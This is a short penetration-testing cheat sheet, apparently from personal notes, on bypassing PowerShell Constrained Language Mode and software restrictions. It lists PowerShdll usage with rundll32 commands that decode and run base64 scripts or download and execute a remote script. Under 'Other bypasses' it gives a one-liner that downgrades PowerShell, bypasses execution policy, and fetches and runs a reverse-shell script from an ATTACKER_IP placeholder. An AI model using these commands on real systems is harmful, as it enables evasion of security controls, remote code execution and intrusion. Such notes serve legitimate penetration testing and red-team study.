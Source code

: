 #  Bypassing Contrained Powershell

#### Check Versioning - [[Powershell-Versions]]

#### Default powershell locations in a Windows system.

```
C:\windows\syswow64\windowspowershell\v1.0\powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell
```

#### Powershell Constrained Mode

Check if we are in a constrained mode: `$ExecutionContext.SessionState.LanguageMode`

#### bypass-clm - PowerShell Constrained Language Mode Bypass
[bypass-clm - PowerShell Constrained Language Mode Bypass](https://github.com/calebstewart/bypass-clm)


#### PowerShdll - Powershell with no Powershell.exe via DLL
[PowerShdll - Powershell with no Powershell.exe via DLL's](https://github.com/p3nt4/PowerShdll) Run PowerShell with rundll32. Bypass software restrictions. Run PowerShell with dlls only and does not require access to powershell.exe as it uses powershell automation dlls. PowerShdll can be run with: rundll32.exe, installutil.exe, regsvcs.exe, regasm.exe, regsvr32.exe or as a standalone executable.

Requires:
-   .Net v3.5 for dll mode.
-   .Net v2.0 for exe mode.

```powershell
Usage:
rundll32 PowerShdll,main <script>
rundll32 PowerShdll,main -h      Display this message
rundll32 PowerShdll,main -f <path>       Run the script passed as argument
rundll32 PowerShdll,main -w      Start an interactive console in a new window (Default)
rundll32 PowerShdll,main -i      Start an interactive console in this console
# If you do not have an interractive console, use -n to avoid crashes on output

# Run base64 encodeed script
rundll32 Powershdll.dll,main [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex
# download and run script
rundll32 PowerShdll.dll,main . { iwr -useb https://website.com/Script.ps1 } ^| iex;
```

#### Other bypasses

```powershell
PS > &{ whoami }
powershell.exe -v 2 -ep bypass -command "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/rev.ps1')"
```

## References

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.mdl)